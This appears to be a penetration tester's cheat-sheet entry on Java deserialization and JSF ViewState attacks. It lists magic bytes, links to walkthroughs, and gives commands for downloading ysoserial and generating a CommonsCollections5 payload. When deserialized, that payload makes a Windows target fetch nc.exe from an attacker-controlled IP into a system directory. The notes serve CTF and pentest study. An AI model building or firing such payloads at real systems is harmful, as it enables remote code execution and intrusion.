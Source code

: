 ```yaml
---
tags:
  - Exploitation
  - FileTypesAndData
  - Languages
---
```


Decompiler: `jd-gui`

# Serialised Java Data

Magic Bytes: `AC ED`
Common extensions: `javax.faces.ViewState`
Common URI file name: `.faces`

# Guide

1. ViewState can be decoded for information
## Walkthrough

1. [Exploiting blind Java deserialization with Burp and Ysoserial – n00py Blog](https://www.n00py.io/2017/11/exploiting-blind-java-deserialization-with-burp-and-ysoserial/)
2. [Tricking blind Java deserialization for a treat – Security Café](https://securitycafe.ro/2017/11/03/tricking-java-serialization-for-a-treat/)
3. [Hack The Box - Arkham - 0xRick’s Blog](https://0xrick.github.io/hack-the-box/arkham/#jsf-viewstate-deserialization-vulnerability) Encrypted usage

## Interesting links

- [Misconfigured JSF ViewStates can lead to severe RCE vulnerabilities](https://www.alphabot.com/security/blog/2017/java/Misconfigured-JSF-ViewStates-can-lead-to-severe-RCE-vulnerabilities.html)
- [Exploiting blind Java deserialization with Burp and Ysoserial](https://www.n00py.io/2017/11/exploiting-blind-java-deserialization-with-burp-and-ysoserial/)
- [How i found a 1500$ worth Deserialization vulnerability](https://medium.com/@D0rkerDevil/how-i-found-a-1500-worth-deserialization-vulnerability-9ce753416e0a)
- [Encrypted Java Serialized RCE](https://gist.github.com/cdowns71/76d99ad0829ceef3a83761dbeee3b66d)
## Guide

### Deserialization Attack

YSOSerial.jar:
`wget https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar -O ysoserial.jar`

This tool requires an important piece of information: a payload. See the walkthroughs above as the most time it will be blind. Hopefully in enumeration and recon a file or maybe Java Class.

````
java -jar ysoserial.jar CommonsCollections5 'cmd.exe /c powershell -c Invoke-WebRequest -Uri "http://10.10.xx.xx/nc.exe" -OutFile "C:\windows\system32\spool\drivers\color\nc.exe"' > uploadnc.payload
````

Send the payload to the input which desterilises to execute. 

## Execute System Commands in Java

[Java Runtime.getRuntime(): getting output from executing a command line program - Stack Overflow](https://stackoverflow.com/questions/5711084/java-runtime-getruntime-getting-output-from-executing-a-command-line-program/20624914#20624914)